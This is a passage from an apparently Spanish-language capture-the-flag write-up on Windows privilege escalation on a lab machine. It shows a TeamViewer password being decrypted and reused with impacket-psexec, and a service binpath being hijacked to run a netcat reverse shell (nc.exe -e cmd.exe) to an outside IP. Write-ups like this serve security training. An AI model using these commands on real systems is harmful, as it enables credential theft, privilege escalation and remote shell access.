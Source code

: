 Al subir el script de powershell a la máquina, cargarlo como módulo en la sesión con `Import-Module` y ejecutar la función de extración `Get-TeamViewPasswords`, se descifró la contraseña `!R3m0te!`.

![Extracción de contraseña](images/post_5.png)

*El mismo proceso puede ser realizado con el módulo de metasploit, sin embargo, es necesario tener una sesión abierta preferentemente de meterpreter (al tiempo que se resolvió la máquina el payload ejecutado fue `windows/meterpreter_reverse_tcp`)*

Probando posteriormente la contraseña con el usuario Administrator mediante:

```bash
impacket-psexec 'Administrator:!R3m0te!@10.10.10.180'
```

Obteniendo así acceso como `NT AUTHORITY\SYSTEM`.

![Acceso como nt authority system](images/post_6.png)

##### Modificación de servicios

Mediante:

```powershell
sc.exe qc UsoSvc
```

Se puede ver más a detalle información respecto este servicio.

![Información de servicio UsoSvc](images/post_7.png)

Por lo que haciendo uso de:

```powershell
sc.exe config UsoSvc binpath="c:\windows\temp\nc.exe -e cmd.exe 10.10.14.16 4321"
```

Se buscó la modificación de la ruta del binario a ejecutar sustituyéndola con la ejecución de netcat para entablar una reverse shell. Al consultar de nuevo la información del servicio, se observa la modificación del valor.

![Cambio de ruta de binario](images/post_8.png)

Por consiguiente al poner la conexión a la escucha y  realizar un reinicio del servicio con:

```powershell
net stop UsoSvc && net start UsoSvc
```

Se logró tener acceso como `NT AUTHORITY\SYSTEM` satisfactoriamente.

![Acceso como nt authority system](images/post_9.png)

##### JuicyPotato

Debido al no tener éxito al aprovecharse del privilegio ni con el uso de [JuicyPotato](https://github.com/ohpe/juicy-potato) ni con [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) se buscó corroborar con el writeup oficial, el cuál indica que debería ser válido el método, sin embargo, no se logró satisfactoriamente.
